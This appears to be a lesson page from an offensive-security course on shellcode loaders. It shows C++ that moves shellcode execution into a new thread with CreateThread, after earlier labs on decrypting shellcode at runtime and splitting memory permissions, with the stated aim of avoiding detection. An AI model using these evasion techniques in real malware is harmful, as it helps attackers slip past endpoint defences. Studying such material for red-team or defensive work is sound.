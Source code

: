```yaml
---
showTableOfContents: true
title: "Basic Thread Obfuscation Concepts (Theory 9.4)"
type: "page"
---
```

## Overview

In our previous lessons, we improved our shellcode execution primitive within our `ExecuteShellcode` function. We decoupled our RWX memory permissions and added decoy and delay functions in Lab 9.1, and in Lab 9.2 we added runtime decryption to hide the static shellcode signature within the DLL. Now, at least our shellcode only exists in its raw, executable form transiently in memory with the correct (RX) permissions.

## One Major Remaining Blemish
However, even with these improvements, the way we *initiate* the execution can still attract unwanted attention.

Currently, our `ExecuteShellcode` function culminates in this line:

```c++
    void (*shellcode_func)() = (void(*)())exec_memory;
    shellcode_func();
````

Here we are directly casting the memory address (`exec_memory`) where our shellcode resides to a function pointer, and then we immediately call it. This direct execution start point is a significant indicator, especially once we start shifting towards remote process injection.


## Decoupling Execution with `CreateThread`

One common alternative to decouple the shellcode's execution from the main program flow is to launch it in a new thread using the `CreateThread` API.

So our relative simple code above becomes something like:

```cpp
    // New Declarations inside of ExecuteShellcode()
    HANDLE hThread = NULL; // Handle for the new thread
    DWORD threadId = 0;   // Variable to receive the thread ID

	// Other code is the same as before, until we get to void (*shellcode_func)() = (void(*)())exec_memory;
	// This is replaced with 3 major steps

	// --- STEP 1: Execute via CreateThread ---
    hThread = CreateThread(
                    NULL,                   // Default security attributes
                    0,                      // Default stack size
                    (LPTHREAD_START_ROUTINE)exec_memory, // Thread start address = shellcode buffer!
                    NULL,                   // No parameter to pass
                    0,                      // Run immediately
                    &threadId);             // Receive thread ID

    if (hThread == NULL) {
        // Attempt cleanup even on thread creation failure
        DWORD dummyProtect;
        VirtualProtect(exec_memory, sizeof(calc_shellcode), oldProtect, &dummyProtect);
        VirtualFree(exec_memory, 0, MEM_RELEASE);
        return FALSE;
    }

```